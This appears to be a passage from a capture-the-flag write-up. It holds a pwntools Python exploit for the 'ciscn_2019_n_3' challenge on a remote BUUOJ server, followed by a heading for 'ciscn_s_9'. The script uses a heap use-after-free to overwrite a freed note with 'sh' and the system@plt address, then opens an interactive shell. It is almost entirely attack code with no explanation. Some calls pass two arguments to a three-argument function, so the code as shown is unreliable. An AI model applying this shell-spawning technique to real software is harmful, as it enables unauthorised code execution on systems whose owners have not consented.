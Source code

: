 ``` python
from pwn import *
p=remote('node4.buuoj.cn',29409)
context(os='linux',arch='i386',log_level='debug')
pwn_file='./problem/ciscn_2019_n_3'
def new_int(id,num):
    p.sendlineafter("> ",'1')
    p.recvuntil("> ")
    p.sendline(str(id))
    p.recvuntil("> ")
    p.sendline('1')
    p.recvuntil("> ")
    p.sendline(num)
def new_str(id,Len,text):
    p.recvuntil("> ")
    p.sendline('1')
    p.recvuntil("> ")
    p.sendline(str(id))
    p.recvuntil("> ")
    p.sendline('2')
    p.recvuntil("> ")
    p.sendline(str(Len))
    p.recvuntil("Value > ")
    p.sendline(text)

def dele(id):
    p.recvuntil("> ")
    p.sendline('2')
    p.recvuntil("> ")
    p.sendline(str(id))
def show(id):
    p.recvuntil("> ")
    p.sendline('3')
    p.recvuntil("> ")
    p.sendline(str(id))

new_str(0,'0')
new_str(1,'0')
dele(0)
dele(1)
elf=ELF(pwn_file)
system_plt=elf.plt['system']
#payload = flat(['sh\x00\x00', system_plt])
payload=b'sh\x00\x00'+p32(system_plt)
new_str(2,0xc,payload)
dele(0)
p.interactive()
```



## ciscn_s_9
